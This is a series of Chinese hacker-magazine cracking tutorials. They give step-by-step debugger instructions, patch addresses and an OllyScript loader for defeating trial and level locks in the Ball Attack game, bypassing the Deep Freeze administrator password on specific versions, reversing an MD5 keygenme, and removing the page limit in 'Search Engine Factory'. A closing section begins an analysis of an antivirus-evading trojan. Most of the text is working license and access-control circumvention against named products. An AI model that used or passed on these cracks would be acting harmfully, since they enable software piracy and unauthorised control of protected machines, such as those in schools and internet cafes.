重新加载 dReg__.exe，在启动过程中修改剩余评估天数激活 Start 按钮；然后设置断点 `bp CreateProcessA`，点击 Start，程序中断后查看堆栈并继续分析。

如图8所示：

```text
0012F658  00401B7F  /CALL to CreateProcessA from dReg_.00401B7A
0012F65C  00000000  |ModuleFileName = NULL
0012F660  00D2B4EC  |CommandLine = "F:\Ball Attack v1.06\BallAttack.exe __start"
...
```

图8

```text
0012F660: 00D2B4EC |CommandLine = "F:\Ball Attack v1.06\BallAttack.exe __start"  ← 注意：这是游戏主程序启动的命令行参数
```

是不是很受启发？Reg.exe 原来是以“__start”为参数启动游戏主程序的，这是不是意味着我们这样启动 BallAttack.exe 就可以绕过时间校验呢？打开桌面上的 BallAttack 快捷方式，在“目标”一栏中填入“F:\Ball Attack v1.06\BallAttack.exe” __start，双击图标运行，果然程序跳过时间校验直接进入游戏主程序了！

纵观整个去除时间限制的过程，我们发现软件作者在加密保护中犯了一个致命的错误，那就是把保护系统和功能核心分离开来。对于任何一个非注册用户来说，他根本无需改动可执行文件的任何部分，也不用填入任何用以延长试用期限的注册码，只要小小地改动一下主程序的启动命令行参数就可以绕开繁复的校验，这可以说是整个保护系统最失败的一个地方。

当然，对于 Cracker 来说，仅仅这样还不够，现在我们只能玩游戏中的一个 Demo 版关卡，其他的关卡还处在封锁之中，在下一篇里，我们即将详细讨论如何攻破游戏的功能限制系统。大家可以回顾一下 ASProtect 的脱壳，顺便玩一下这个小游戏。

- 适合读者：初级破解爱好者
- 前置知识：OllyDbg 使用方法

## 软件加密漏洞剖析

## 兼谈 ASProtect 脱壳技术（下）

文／图 Rodoc

上文我们对 ASProtect 的脱壳已经有所了解了，这次我们来破解此游戏的功能限制。

##### 解除功能限制

如图1所示，绕开时间限制以后，我们仍然只能停留在 DEMO 版，一旦点击 FIRST、SECOND、ABC，游戏就会冷漠地提示“NOT AVAILABLE IN UNREGISTERED VERSION”。如何才能品尝到那些新鲜的关卡呢？去游戏的主页上看了一下，发现他们不断地发布出新的关卡文件（Expansion Sets: *.CPG）……迅速浏览一下游戏安装目录，发现 0.cpg、1.cpg、2.cpg、3.cpg 四个关卡文件……这里就是我们的突破口了。

图1

Peid 检查 BallAttack.exe 加壳情况：ASProtect 1.23 RC4 Registered -> Alexey Solodovnikov。

老规矩，先脱壳。这个注册版的 ASProtect 比上期操作的要稍微麻烦一些，作者使用了 SDK 对核心功能部分进行了保护，带有内存访问异常的外壳代码已经植入到原程序的内部，这时候我们要尤其注意异常代码位置的变化，一旦动态内存区域发生大范围改变，就说明已经越过了原始入口点。这里我们不再赘述详细的脱壳过程，读者可以参考上期自己完成脱壳。

脱壳修复完成以后保存为 rdBallAttack_.exe，在桌面上新建一个快捷方式，记得加上“__start”作为命令行参数，尝试运行一下，什么也没有发生，程序自动退出了。看来作者在核心功能的保护上还是下了一点功夫的，不过这并不足以阻止我们前进的脚步。

启动两个 OllyDbg 分别加载原始文件 BallAttack.exe 和脱壳修复以后的 rdBallAttack_.exe，注意全部要加上命令行参数“__start”，方法是在“Debug→Arguments”菜单中输入。通过反复对比跟踪，发现问题出在下面的地方：

```text
00401613  E8 B47A0500       CALL rdBallAt...
00401618  833D 2CA44500 00  CMP DWORD PTR DS:[45A42C],0
0040161F  75 06             JNZ SHORT rdBallAt.00401627
00401621  FF15 34A44500     CALL DWORD PTR DS:[45A434]
...（注意这个地方）
```

```asm
00401627  > 66:C745 E0 00    MOV WORD PTR SS:[EBP-20],0
0040162D    EB 08            JMP SHORT rdBallAt.0040163A
0040162F    66:C745 E0 10    MOV WORD PTR SS:[EBP-20],10
00401635    E8 4F4A0500      CALL rdBallAt.00456089
```

上面 00401621 处的 Call 调用了地址 00401584，而在原版中，该地址为 0040156C。修复的办法是仁者见仁的事了，可以修改 45A434 处的地址，也可以把 00401621 处的 Call 指令直接修改成 Call xxxxxxxx 附加一个 Nop。去掉了这个暗桩后，游戏终于如愿运行起来了。

然而到目前为止我们只是让程序正常跑了起来，功能限制还没有解除。经过上述修复过程以后，通过测试，我们发现游戏还存在下列问题：

- 1. 增加了一些奇怪名字的记录，如图2所示。
- 2. 第一关结束以后游戏不会自动进入下一关。
- 3. 只能跑 Demo 版的第一个关卡。

图2

接着我们从关卡文件着手看看如何控制游戏的执行流程，在 OllyDbg 中忽略所有异常（因为 ASProtect 外壳代码注入到了程序内部，所以会引发许多内存访问异常），下断点 `Bp CreateFileA`，按下 F9 运行，当游戏打开 0.cpg 文件（Demo 版关卡文件）时停下来，此时堆栈显示如下：

```asm
11.11C930  00445D5B  /CALL to CreateFileA from rdBallAt.00445D56
0012F934  0215D0A0  |FileName = "0.cpg"
0012F938  80000000  |Access = GENERIC_READ
0012F93C  00000000  |ShareMode = 0
0012F940  00000000  |pSecurity = NULL
0012F944  00000003  |Mode = OPEN_EXISTING
0012F948  00000080  |Attributes = NORMAL
0012F94C  00000000  |hTemplateFile = NULL
0012F950  0215D0A0   ASCII "0.cpg"
```

取消断点，按下 Alt+F9 返回程序领空，走出两个无关紧要的 Ret 以后来到下面的地方：

```asm
0042BAA6  E8 415A0100       CALL rdBallAt.004414EC
0042BAAB  8985 7CFFFFFF     MOV DWORD PTR SS:[EBP-84],EAX
0042BAB1  FF4D A4           DEC DWORD PTR SS:[EBP-5C]
0042BAB4  8D45 F4           LEA EAX,DWORD PTR SS:[EBP-C]
0042BAB7  BA 02000000       MOV EDX,2
```

跟着光标往下走，跳过程序对关卡文件的读取和解码之后，我们会发现这样一段代码：

```asm
0042BF83   8B10           MOV EDX,DWORD PTR DS:[EAX]
0042BF85   EB 05          JMP SHORT rdBallAt.0042BF8C
0042BF87   BA 31F14500    MOV EDX,rdBallAt.0045F131
0042BF8C   8BC2           MOV EAX,EDX
...
0042BF9D   0FBE48 02      MOVSX ECX,BYTE PTR DS:[EAX+2]
0042BFA1   83F9 6D        CMP ECX,6D   ; 比较第3字符 'm'
0042BFA6   0FBE10         MOVSX EDX,BYTE PTR DS:[EAX]
0042BFA9   83FA 64        CMP EDX,64   ; 比较第1字符 'd'
0042BFAE   0FBE48 01      MOVSX ECX,BYTE PTR DS:[EAX+1]
0042BFB2   83F9 65        CMP ECX,65   ; 比较第2字符 'e'
0042BFB7   0FBE40 03      MOVSX EAX,BYTE PTR DS:[EAX+3]
0042BFBB   83F8 6F        CMP EAX,6F   ; 比较第4字符 'o'
0042BFC4   B8 01000000    MOV EAX,1
0042BFC9   8B55 80        MOV EDX,DWORD PTR SS:[EBP-80]
0042BFCC   84C0           TEST AL,AL
0042BFCE   8842 31        MOV BYTE PTR DS:[EDX+31],AL
```

游戏的判断流程比我们想象中的要简单得多——纯粹的明文比较。这样一来修改也方便多了，我们只要把 42BFA3、42BFAB、42BFB4、42BFBD 这四个位置的字节值修改为“first”、“second”、“ABC”的对应字符 ASCII 码，就可以让游戏把其他关卡文件误认为 Demo 版，从而突破其功能限制。

例如，假如我们要跑“first”关卡文件，那么只要修改这四个值为 72h、66h、69h、73h。对于剩下的问题，只要我们运行不脱壳的文件，自然就解决了。为了解决功能限制，我们必须写一个 Loader，在外壳把程序代码完全解开以后做一个内存补丁。这里为了方便起见，我用一个 OllyScript 的脚本文件来完成这些操作。

```c
var sehcount
var ntarget
// 注意选择脚本之前在 Debugging Options 中去掉
// Analysis! -> Auto start analysis of main module 这个选项
// 并忽略除内存访问异常以外所有的异常捕捉选项
```

```c
// 同时用插件 IsDebuggerPresent 隐藏调试器
ask("Please input target", "", target);
mov ntarget,$RESULT
mov sehcount,1E
nextseh:
esto
dec sehcount
cmp sehcount,0
jne nextseh
cmp ntarget,0
jne firstup
jmp patchend
firstup:
cmp ntarget,1
jne secondup
// first
mov [42BFA3],#72#
mov [42BFAB],#66#
mov [42BFB4],#69#
mov [42BFBD],#73#
jmp patchend
secondup:
cmp ntarget,2
jne ABCup
// second
mov [42BFA3],#63#
mov [42BFAB],#73#
mov [42BFB4],#65#
mov [42BFBD],#6F#
jmp patchend
ABCup:
cmp ntarget,3
jne patchend
// ABC
mov [42BFA3],#43#
mov [42BFAB],#41#
mov [42BFB4],#42#
mov [42BFBD],#00#
```

```asm
patchend:
eoc skipseh
skipseh:
esto    // 遇到内存访问异常时自动跳过
```

在 OllyDbg 中运行该脚本，弹出对话框中填入 2，回车跳过后面所有 OllyDbg 的确认对话框，进入游戏以后的关卡选择界面如图3所示，此时单击“second”，稍作等待，我们就可以进入受限关卡了！

图3

##### 总结

纵观整个游戏的解密过程，我们完全没有与作者正面纠缠注册码算法而掉入算法分析的窠臼，但是却同样突破了其时间限制和功能限制，有力证明了加密漏洞剖析在软件解密中的重要地位。作为一名 Cracker，富于创造力的攻击侦测和不拘一格的攻击手段往往是对抗加密的关键法宝。这个例子同样也告诫软件开发商，在加密和解密严重不对称的情况下，只有从各个角度布置严密的保护系统，尤其是那些保护系统与功能核心发生联系的最薄弱位置，才能有效抵抗解密者的攻击。

Icefire：现在根本不用花钱去买还原卡，用“DeepFreeze”就可以起到还原卡的功能，甚至比还原精灵好 N 倍，据国内和国外的报道“从来都没有人能够破解这个软件”。冰点果真就这么安全吗？

- 适合读者：破解爱好者
- 前置知识：无

#### 挑战“从来都没有人能破解”的冰点

文／图 吉荣毅

##### 前置知识

现在很多网吧在用冰点了，满世界都充斥着这种广告，每每看到都觉得很不舒服。把我们这些搞破解的人当空气啊？太过分了！我们大学的机房新进了几百台方正的电脑，全搞上了冰点还原，把以前的还原卡都扔到爪哇国去了，装上了“冰点还原”倒是为学校省下好多钱。老早就想把这个被传得神乎其神的“冰点还原”破解了，可是前些日子一直忙着考试，总没有实践的机会。这回好，终于考完了，在网吧我又遇到了这早就想结交的“冰点还原”。

> Deep Freeze 是由 Faronics 公司出品的一款类似于还原精灵的系统还原软件，它可自动将系统还原到初始状态，保护你的系统不被更改，能够很好地抵御病毒入侵以及人为对系统有意或无意的破坏。不管个人用户还是网吧、学校或企业，都能起到简化系统维护的作用……

> “蓄意破坏系统的人我们是无法阻止的，因此使用还原精灵的系统并不安全……对于 Deep Freeze（冰点还原），目前还没有破解的办法，因此，一旦弄丢了管理员密码，只能格式化磁盘重新安装系统了。”

俗话说，外来的和尚会念经。今天我就手把手地教你破解冰点还原。

- 操作系统：Windows XP SP2 专业版
- 测试对象：Deep Freeze V5.20.200.1125
- 所需工具：OllyDbg 1.10 中文版
- OllyScript 插件
- ASPack 2.12 OEP finder script by hachoo/VCT2k4（寻找 OEP 工具）
- PEiD 0.91 中文版
- Process Explorer for 2K/XP 进程查看工具

我们今天就来个“以夷制夷”，用外国工具破解外国软件。

> **冰点还原的工作机理**：冰点还原的作用是获取南桥芯片的 I/O 控制权……其核心是通过驱动接管磁盘写入与 INT13 中断，实现系统“还原”效果；并说明了其在 DOS/NTFS 环境下的一些限制。

**爆破思路**：在不知道控制台密码的前提下，进入 Deep Freeze 控制平台。重新加载登录窗口后，通过修改 EAX 跳转逻辑，使输入任意字符都可登录。

##### 破解工程

首先，在虚拟机中安装 Deep Freeze V5.20.200.1125 企业版。重启后任务栏出现“电脑上覆盖着冰雪”的图标（图1）。调出控制窗口可按住 Shift 并双击图标，或使用快捷键 Ctrl+Shift+Alt+F6。

### 1. 查看 Deep Freeze 在系统中的进程

打开 Process Explorer for Windows 2000/XP 进程查看工具，查找 Process 名为 FrzState.exe 或 FrzState2k.exe 的进程。右键该进程，选择“Properties”查看属性（如图2所示）。

在其进程的“Properties”窗口中找到“Command line”文本框，记录冰点程序安装路径及末尾参数（如图3所示），供后续使用。

### 2. 对 Deep Freeze 侦查所加壳

使用 PEiD 0.91 中文版，对刚记录的安装目录下文件 `C:\Program Files\Faronics\Deep Freeze\Install C-0\_$Df\FrzState2k.exe` 查壳。结果显示程序壳为 ASPack 2.12（如图4）。

### 3. 运行 OllyDbg 程序调试破解

> 我们要确认 OllyScript 插件是否已经被安装。如果安装了，就会在“插件”菜单中看到名叫“OllyScript”的子菜单。安装方法是在“选项”菜单中点击“界面”子菜单，在“插件路径”框中指向你存放“OllyScript”文件的路径，点击“确认”重启程序即可。

选择“文件”菜单下的“打开”，在弹出的对话框中输入 FrzState2k.exe 的完整路径，在参数框中输入刚才记录下来的三组数字“1 106917 0”，单击“打开”按钮。如图5所示。

图5

在弹出的“入口点警告”对话框中点击“确定”，在过后弹出的对话框中，询问是否压缩代码，我们点“否”。至此我们已经加载了 FrzState2k.exe 程序，然而它加了 ASPack 2.12 壳，我们无法看到真正代码。接下来我们用 OllyScript 插件中的 ASPack 2.12 OEP finder script 脚本寻找程序的 OEP，点击“插件”菜单，在 OllyScript 子菜单中点击“运行脚本”，在弹出的对话框中选择 ASPack 2.12 OEP finder script 脚本。如图6、图7所示。

图6

图7

此脚本将自动寻找 OEP（Original Entry Point）地址。

```asm
00401434  7EB 10        JMP SHORT FrzState:00401446
; This is the OEP! Found by hachoo/VCT2k4
00401436  66:623A       BOUND DI,DWORD PTR DS:[EDX]
00401439  43            INC EBX
0040143A  2B2B          SUB EBP,DWORD PTR DS:[EBX]
0040143C  48            DEC EAX
0040143D  4F            DEC EDI
0040143E  4F            DEC EDI
0040143F  4B            DEC EBX
00401440  90            NOP
00401441  E9 98004B00   JMP 008B14DE
00401446  A1 8B004B00   MOV EAX,DWORD PTR DS:[4B008B]
```

右键单击 OEP 所在行，将弹出右键菜单，选择“转到”，在弹出子菜单中选择“表达式”（或者直接用快捷键 Ctrl+G），在文本对话框中输入“4037E9”并确认，如图8所示。

图8

不同的 Deep Freeze 版本，其地址值也不同。下面给出地址，作为你今后破解的参考。

| 版本 | 地址值 |
|---|---|
| 4.20.020.0598 | 40368D |
| 4.20.120.0598 | 40368D |
| 4.20.121.0613 | 4034F5 |
| 5.20.220.1125 | 4037E9 |
| 5.30.120.1181 | 4037E9 |

程序将跳转到“4037E9”对应地址行，这里就是密码验证的关键 Call。在此处设置断点，右键“断点”→“切换”（或者直接用快捷键 F2）。现在就到关键地方了，重新加载一个新的 Deep Freeze 登录控制平台窗口。点击“F9”，如果上面所作操作都正确的话，就会看到在任务栏中有两个“冰点还原”的图标。如图9所示。

图9

> 如果“冰点还原”在设置的时候设置了隐藏图标，那么在此你将看到一个“冰点还原”的图标。也有一种可能是你在“打开” FrzState2k.exe 程序的时候，没有输入三个参数数字或“打开”的程序错误造成的。

按住“Shift”键的同时，双击我们刚才重新加载的图标，在弹出的“冰点还原”登录控制平台页面上，要求输入密码，在密码框中输入任何字符，并点击“确认”。我在这输入的是“www.hacker.com.cn”，点击“确认”后窗口“锁定”，刚才设定的断点将被触发。如图10所示。

如果断点未被触发，可能是你刚才选择了错误的“冰点还原”图标了，试一下另外一个吧。

在 OllyDbg 调试程序中，按“F8”将单步跳过关键 Call。在下面窗口中你将看到 EAX=00000000，它的意思是密码错误，那么我们就修改它吧。在 EAX 上双击它的值弹出“修改 EAX”窗口，在“十六进制”文本框中输入“1”并点击“确定”，如图11所示。

接下来按“F9”运行，如果上述操作都正确无误的话，Deep Freeze 控制平台就会显示出来。OK，大功告成。如图12所示。

至此爆破冰点（Deep Freeze）还原已经全部结束。其他版本的 Deep Freeze 破解方法也是大同小异。

在这篇文章里，我对冰点（Deep Freeze）还原的安全性保护做了一下测试，爆破到最后我也相当震惊，业内传言安全性和还原效果极佳的还原软件，竟然如此不堪一击！在没有管理员密码的情况下，就能成功登录控制平台，实在太可怕了。写这篇文章虽然表面上写的是破解方法，然而破解至多只能算是调试软件的手段，主要目的是为了引起网管人员的足够重视，不要太轻信广告的夸大其词，做好安全性的保护才是最重要的，希望本文能够起到抛砖引玉的作用。

#### MD5 的 Keygenme 分析

文 / Firebig

闲来无事，抓出个不知何时下的 Keygenme 练练手。分析后可知，这个 Keygenme 有 2 张数据表，由注册名经 MD5 运算后进行查表，得出 2 个 DWORD 数据，然后再由注册码经过一个可逆循环得出 2 个 DWORD 数据，最后对比是否正确。（MD5 的具体介绍黑防 6 期有说明）

开始分析，查壳，无壳，OD 载入，一气呵成。随便输入 Name 和 Serial 很容易得知 Serial 应为 16 位，很简单地来到下面：

```
00401D20    FF35 04>push dword ptr ds:[403004]
00401D26    E8 CF01>call <jmp.&user32.GetWindowTextA>
// 这个 call 读入 Name
```

```
00401D2B    68 D430>push KeyGenMe.004030D4
00401D30    50      push eax    // 压入的参数是 Name 长度
00401D31    68 E430>push KeyGenMe.004030E4
// 压入的参数是 Name
00401D36    E8 C5F2>call KeyGenMe.00401000
```

这个 call 是对 Name 的初步处理，我们跟入：

```
00401000    55         push ebp
00401001    8BEC       mov ebp,esp
00401003    83C4 F0    add esp,-10
......
0040104B    8B55 0C    mov edx,dword ptr ss:[ebp+C]
```

```asm
0040104E  mov edi,dword ptr ss:[ebp+8]
00401061  mov dword ptr ds:[esi+8],98BADCFE
00401068  mov dword ptr ds:[esi+C],10325476
```

这里 4 个常数 0 1 2 3 4 5 6 7 8 9 A B C D E F，FEDCBA98，7654321（内存中是低位存放低字节，高位存放高字节，所以显示的是 67452301，EFCDAB89，98BADCFE，10325476）基本上可以肯定是 MD5 算法。出 CALL，看看压入 CALL 的参数。

`00401D2B  68 D430 > push KeyGenMe.004030D4`

可以看到出 CALL 后，004030D4 返回了一个字符串，应该是 MD5 码吧。找个 MD5 计算的程序对比下，可以肯定是 MD5 加密的 CALL，继续向下走。

```asm
00401D43  lea esi,dword ptr ds:[4030D4]
00401D49  mov ecx,4
00401D4E  or edx,eax
00401D50  xor eax,eax
00401D52  lods byte ptr ds:[esi]
00401D53  shl edx,8
00401D56  loopd short KeyGenMe.00401D4E
00401D58  or edx,eax
00401D5A  mov dword ptr ds:[40309D],edx
```

小循环根据 MD5 字符取得一个 DWORD 数据，记为 m2="N[4]N[3]N[2]N[1]"，其中 N[m] 表示 MD5 字符串的第 m 个字符。

```asm
00401D60  mov ecx,4
00401D65  xor eax,eax
00401D67  xor edx,edx
00401D69  or edx,eax
00401D6B  lods byte ptr ds:[esi]
00401D6C  shl edx,8
00401D6F  loopd short KeyGenMe.00401D69
00401D73  mov dword ptr ds:[403095],edx
...
00401D7B  push KeyGenMe.004030C7
00401D80  call KeyGenMe.004019D8
00401D85  push KeyGenMe.00403095
00401D8A  push KeyGenMe.0040309D
00401D8F  call KeyGenMe.0040197C
```

跟入关键 CALL 1，来到：

```asm
004019E3  mov esi,KeyGenMe.004032D6
004019E8  lea eax,KeyGenMe.004043AE
004019ED  lea ecx,dword ptr ds:[esi+48]
004019F0  mov edx,100
004019F5  mov edi,dword ptr ds:[eax]
004019F7  add eax,4
004019FA  mov dword ptr ds:[ecx],edi
```

```asm
生成一个1000H大小的数据表
004019FC  add ecx,4      ; 记为 table1
004019FF  dec edx
00401A00  jnz short KeyGenMe.004019F5
00401A02  cmp eax,KeyGenMe.004053AE
00401A07  jl short KeyGenMe.004019F0
```

上面这个小循环生成 1000H 的数据表 table1，[40331E] 是开始地址，继续。

```asm
00401A09  mov edx,dword ptr ss:[ebp+8]   ; "ChinaCracker"
00401A0C  mov edi,KeyGenMe.00404366
00401A11  xor eax,eax
00401A13  sub edi,esi
00401A15  mov dword ptr ss:[ebp-4],12
00401A1C  xor ecx,ecx
00401A1E  mov dword ptr ss:[ebp-8],4
...
00401A25  xor ebx,ebx
00401A27  mov bl,byte ptr ds:[edx+eax]
00401A2A  shl ecx,8
00401A2D  or ecx,ebx
00401A2F  inc eax
00401A30  cmp eax,dword ptr ss:[ebp+C]
00401A33  jl short KeyGenMe.00401A37
...
00401A40  mov ebx,dword ptr ds:[esi+edi]
00401A43  add esi,4
00401A46  xor ebx,ecx
00401A48  mov ecx,dword ptr ss:[ebp-4]
00401A4B  mov dword ptr ds:[esi-4],ebx
00401A4D  dec ecx
00401A4F  mov dword ptr ss:[ebp-4],ecx
00401A52  jnz short KeyGenMe.00401A1C
```

上面这个小循环，从 [404366] 取 12H 个 DWORD 数据，处理后赋给 table2，table2 长度为 12H。

```asm
00401A54  mov ebx,KeyGenMe.004032D6
00401A59  xor eax,eax
00401A5B  mov dword ptr ds:[40435E],eax   ; key1
00401A60  mov dword ptr ds:[404362],eax   ; key2
00401A65  mov esi,ebx
```

循环开始，对 table2 运算：

```asm
00401A67  mov edi,9      ; 循环9次
00401A6C  lea eax,dword ptr ds:[40435E]
```

## 解密前线 · SECRET OF CRACK

```asm
00401A72 8D0D 62...   lea ecx,dword ptr ds:[404362]
00401A78 50           push eax   ; key1地址
00401A79 51           push ecx   ; key2地址
00401A7A E8...        call KeyGenMe.0040197C
...
00401A8A 8906         mov dword ptr ds:[esi],eax
00401A8C 894E 04      mov dword ptr ds:[esi+4],ecx
00401A8F 83C6 08      add esi,8
00401A92 4F           dec edi
00401A93 75 D7        jnz short KeyGenMe.00401A6C
```

```asm
004019A9 8B4D FC      mov ecx,dword ptr ss:[ebp-4]
004019AC 33C6         xor eax,esi
004019AE 83C3 04      add ebx,4
004019B1 49           dec ecx
004019B2 8BF2         mov esi,edx
004019B4 894D FC      mov dword ptr ss:[ebp-4],ecx
004019B7 75 E6        jnz short KeyGenMe.0040199F
```

小循环用 C 语言描述，即：

```c
for(n=0;n<16;n++) {
    EAX=table2[n] xor ESI;
    EDX=EAX; EAX=f2(EAX);
    EAX=EAX xor ESI; ESI=EDX;
}
```

```asm
004019B9 8B4F 40      mov ecx,dword ptr ds:[edi+40]
004019BC 8B57 44      mov edx,dword ptr ds:[edi+44]
004019BF 33C8         xor ecx,eax
004019C1 33D6         xor edx,esi
004019C3 8915 62...   mov dword ptr ds:[404362],edx
004019C9 890D 5E...   mov dword ptr ds:[40435E],ecx
```

接着就出了这个 CALL，看样子还要跟入 F2，即 00401910，跟入来到这里：

```asm
00401A95 8D73 4C      lea esi,dword ptr ds:[ebx+4C]
00401A9F BF 8000      mov edi,80
00401AA4 8D0D 5E...   lea ecx,dword ptr ds:[40435E]
00401AAA 8D15 62...   lea edx,dword ptr ds:[404362]
00401AB2 E8...        call KeyGenMe.0040197C
...
00401AC3 894E FC      mov dword ptr ds:[esi-4],ecx
00401AC6 8916         mov dword ptr ds:[esi],edx
00401AC8 83C6 08      add esi,8
00401ACB 4F           dec edi
00401ACC 75 D6        jnz short KeyGenMe.00401AA4
```

上面两个大循环分别对 table2 和 table1 作处理，起作用的都是 Call 0040197C，跟入：

```asm
00401987 8B45 08      mov eax,dword ptr ss:[ebp+8]
0040198A 8B4D 0C      mov ecx,dword ptr ss:[ebp+C]
0040198D 8B00         mov eax,dword ptr ds:[eax]
0040198F 8B31         mov esi,dword ptr ds:[ecx]
00401991 BF ...       mov edi,KeyGenMe.004032D6 ; table2首地址
...
004019A4 E8 67EF      call KeyGenMe.00401910 ; 记为函数f2()
```

```asm
00401918 8B4D 08      mov ecx,dword ptr ss:[ebp+8]
0040191B 8AC1         mov al,cl
0040191D 25 FF00      and eax,0FF
00401922 C1E9 08      shr ecx,8
...
00401954 8B4487..     mov eax,dword ptr ds:[edi+eax*4+48]
00401958 8B9C8F..     mov ebx,dword ptr ds:[edi+ecx*4+448]
0040195F 8B8CB7..     mov ecx,dword ptr ds:[edi+esi*4+848]
00401966 03C3         add eax,ebx
00401968 33C1         xor eax,ecx
0040196A 8B8C97..     mov ecx,dword ptr ds:[edi+edx*4+C48]
00401971 03C1         add eax,ecx
```

此 Call 用 C 语言描述为：

```c
DWORD f2(para)
{
    DWORD eax=0, ecx=0, edx=0, esi=0, ebx=0;
    ...
}
```

```asm
...eax=table[eax]; ebx=table[ecx+0x100]; ecx=table[esi+0x200];
...eax+=ebx; eax^=ecx; ecx=table[edx+0x300]; eax+=ecx;
```

注意 DWORD 占 4 字节，上面位移要乘以 4。`[edi+48]` 是 table1 的开始地址，则 `[edi+eax*4+48]` 就是 `table[eax]`。搞定，返回到最外面的 CALL。

```asm
00401D85  push KeyGenMe.00403095
00401D8A  push KeyGenMe.00403090
00401D8F  call KeyGenMe.0040197C
00401D94  nop
```

此 CALL 调用前面函数 F1，继续对 key1、key2 作变换，只是压入参数变为 m1、m2 了。我们继续向下看。

```asm
00401E1C  mov ecx,8
00401E21  lea esi,[40435E]   ; key1,key2
00401E27  lea edi,[4031C0]
00401E2D  rep movs ...
00401E2F  push 004030B6
00401E34  push 004031AC
00401E39  call KeyGenMe.00401BB...
```

前面可以看出，对 Name 的变化是 MD5 加密后的。我们不能根据 MD5 算出的 key1、key2 作逆变换，得出用户名。那么写 Keygen 关键就在这个对 Serial 处理的 CALL 上。

```asm
00401B84  push ebp
00401B85  mov ebp,esp
00401B87  pushad
00401B88  mov esi,[ebp+C]
00401B8B  mov eax,[esi]
00401B8D  mov ebx,[esi+4]
00401B90  mov ecx,[esi+8]
00401B93  mov edx,[esi+C]
00401B96  mov [4053C0],eax
00401B9B  mov [4053C4],ebx
00401BA1  mov [4053C8],ecx
00401BA7  mov [4053CC],edx
...
```

这里 `esi="Serial前8个字符逆序排列"`，`edi="Serial后8个字符逆序排列"`。若 Serial=1234567887654321，则 esi=78563412H，edi=21436587H。

```asm
00401BBB  mov ebp,20
00401BC0  mov eax,esi
```

```asm
00401BC2  mov edx,esi
00401BC4  mov ecx,esi
00401BC6  shl eax,4
00401BC9  add eax,[4053C8]
00401BCF  shr ebx,5
00401BD2  add ebx,[4053CC]
00401BD8  add ecx,edx
00401BDA  xor ecx,eax
00401BDC  xor ecx,ebx
00401BDE  sub edi,ecx
...
00401C2C  retn 8
```

上面这个循环用 C 语言描述的话：

```c
edx = 0xC6EF3720;
for(i=0; i<20; i++){
    edi = edi - fs(esi);
    esi = esi - fd(edi);
    edx -= 0x9E3779B9;
}
```

把 edi、esi 当作数列的话，则有：`edi(N)=edi(N-1)-fs(esi(N-1))`，`esi(N)=esi(N-1)-fd(edi(N))`。移项可得 `esi(N-1)=esi(N)+fd(edi(N))`，`edi(N-1)=edi(N)+fs(esi(N-1))`。可见这部分算法可逆，可由 edi(N)、esi(N) 推算最初的 esi、edi。

也就是说，写 Keygen 时由 Name 计算出 key1、key2 后，得到正确的 Serial（esi、edi 被初始化为 key1、key2）。整个过程基本 OK。写 Keygen 时 table1、table2 可由程序中的固定数值换算得到，按上面分析先得 table1、table2，再计算 key1、key2，最后由 key1、key2 得到正确 Serial 即可。

- 适合读者：破解爱好者
- 前置知识：无

#### 轻松搞定搜索引擎工厂

文／图 iaags


最近又开始做网页了，最近看到一个“搜索引擎工厂”的软件，可以为网站生成站内搜索引擎。去 Google 翻了一下，发现了这款软件，不过竟然是共享软件。职业为学生的我除了穷就是穷（做网页的空间都 1K8 申请的），哪里有钱去注册软件呢，点击立即购买，居然是洋货。如图1所示。


每年 $7.85，算下来要 62 块人民币。为了一个软件掏这钱，我还真有点舍不得，况且国外的东西怎么付款都是个问题。没注册只能索引 20 个页面，看来破除这个限制就可以了。于是二话不说，拿出 PEiD 检查，没有加壳。如图2所示。


运行软件随便输入用户名和注册码，点注册后如图3所示。原来程序为了防破解，是在运行时验证注册信息的。这样通过错误信息找突破点就用不上了。点击索引，弹出如图4所示对话框。单击确定后如图5所示。


做人要灵活是吧，我想这没人会反对。既然人家查找字符串都能找到注册的突破口，我们用查找字符串相信也能突破只索引 20 个页的限制。用 OllyDbg 加载“搜索引擎工厂”。右击鼠标，查找所有字符串参考，如图6所示。


把所有字符串浏览了一遍，找到了我们要的：“Unregistered user can only index 20 pages!” 想知道这些是哪里来的呀，把“搜索引擎工厂”的语言设置为英语就行了。其实内容就是图4里的东西。点击来到图7所示的位置。


按照前人的习惯，从这里往上看，应该会找到“关键跳”。于是往上一点来到图8所示的地方。前面两处的 `JNZ SHORT SearchMa.00426FCA`，如果跳过去，则不会显示图4的对话框。不过我们并不能确定这里是否就是判断 20 个页的地方。再往上看，来到图9所示的地方。


发现了什么？14？16 进制的 14 就是 10 进制的 20 哦。下面的 `JNZ SHORT SearchMa.00426FCA` 应该就是还没到 20 页时跳转。那我们把它改成 `JMP SHORT SearchMa.00426FCA`，这样就没有了 20 页的限制。改完后保存，运行一切正常！

Icefire：免杀到今天已经不是神秘的技术——至少黑防 VIP 系统里很多 VIP 会员日常都在讨论比较高级或者另类的免杀技术，而的确也有很多木马后门被 VIP 会员做成了免杀的版本。免杀技术的普及紧接着就给我们带来了与之交锋的“免杀后门清理”。如何系统全面地分析经过免杀处理的黑客程序并将它从系统里揪出来，就是我们今天讨论的主题！

- 适合读者：破解爱好者
- 前置知识：无

#### 奇袭免杀木马

文/图 icexiaoye [E.S.T.]


EvilOcta 的 nowthk 给我发来一个程序，说是个杀毒软件无法查杀的东西。出于好奇，我用最新的卡巴和瑞星扫描了一遍，果然免杀，一狠心自己运行它，“咻”就消失了，看来 100% 不是什么好东西啊，试试分析并删除它吧。

拿出 PEiD 扫一下，发现是 UPX 的壳，如图1所示。


```text
（反汇编片段）
004051BC 55            push ebp
004051BD 8BEC          mov ebp,esp
004051BF B9 05000000   mov ecx,5
004051C4 6A 00         push 0
...
004051E6 E8 E5FBFFFF   call ...
```

> 一般先用 F8 粗略跟踪一遍，先了解程序编写的主体思路，再进行深入分析；对不是很重要的地方可直接跳过，对需要破解的地方详细分析即可。

我们跟进 004051E6 处的 CALL，一路 F8 快速跑过，来到 00404E5D 处，有一个关键信息，如图2所示。

```text
（反汇编片段）
... call ...
mov eax,dword ptr ss:[ebp-18]
call ...
push eax
;
Trace ss:[0072FF00] "C:\WINDOWS\system32\explore.exe"
```

图2

由此可以判断，程序在系统盘中释放出 Explore，继续 F8 跟进，到 00404EA3 处，又有好东西：

```text
00404B69 ... mov ecx,...
; ASCII "$$a.bat"
00404B91 ...
; ASCII "try"
00404BAB ... push ...
; ASCII "del "
00404BF3 ...
; ASCII "if exist "
00404C10 ...
; ASCII "goto try"
00404C40 ...
; ASCII "del "
00404C78 ...
; ASCII "cls"
```

